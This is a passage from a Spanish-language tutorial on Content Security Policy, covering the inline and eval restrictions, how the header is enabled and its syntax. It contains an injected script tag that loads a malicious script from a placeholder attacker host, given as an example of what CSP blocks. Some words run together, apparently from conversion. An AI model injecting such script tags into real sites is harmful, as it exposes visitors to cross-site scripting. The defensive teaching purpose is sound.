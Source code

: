 - **Sin recursos en línea:** JavaScript y CSS en línea no se evaluarán.

- **Noeval:** La función JavaScript evalno se puede utilizar.

- **CSP en acción:** En el siguiente ejemplo, un atacante logró inyectar código malicioso en una página: 

```html
<html>

Latest comment:

<script src="http://attacker/malicious-script.js"></script>

</html>
```

Con una política CSP correctamente definida, el navegador no se cargaría ni ejecutaría malicious‑script.jsporque [http://attacker/no](http://attacker/no) estaría en el conjunto de fuentes confiables. Aunque en este caso el sitio web no pudo manejar de forma segura la entrada del usuario, la política del CSP evitó que la vulnerabilidad causara algún daño.

Incluso si el atacante hubiera inyectado el código del script en línea en lugar de vincularlo a un archivo externo, una política de CSP correctamente definida que no permitiera JavaScript en línea también habría evitado que la vulnerabilidad causara algún daño.

### ¿Cómo habilitar CSP?

De forma predeterminada, los navegadores no aplican CSP. Para habilitar CSP en su sitio web, las páginas deben tener un encabezado HTTP adicional: Content‑Security‑Policy. Cualquier página enviada con este encabezado tendrá su política de seguridad respetada por el navegador que la cargue, siempre que el navegador admita CSP.

Dado que la política de seguridad se envía con cada respuesta HTTP, es posible que un servidor establezca su política página por página. Se puede aplicar la misma política a un sitio web completo proporcionando el mismo encabezado CSP en cada respuesta.

El valor del Content‑Security‑Policyencabezado es una cadena que define una o más políticas de seguridad que entrarán en vigor en su sitio web. La sintaxis de esta cadena se describirá a continuación.

*Los encabezados de ejemplo en esta sección utilizan nuevas líneas y sangría para mayor claridad; esto no debería estar presente en un encabezado real.*

### Sintaxis de CSP

La sintaxis de un encabezado CSP es la siguiente:

> Content‑Security‑Policy:
>  
> *directive* *source‑expression*, *source‑expression*, ...;
> 
> *directive* ...;
> 
> ...
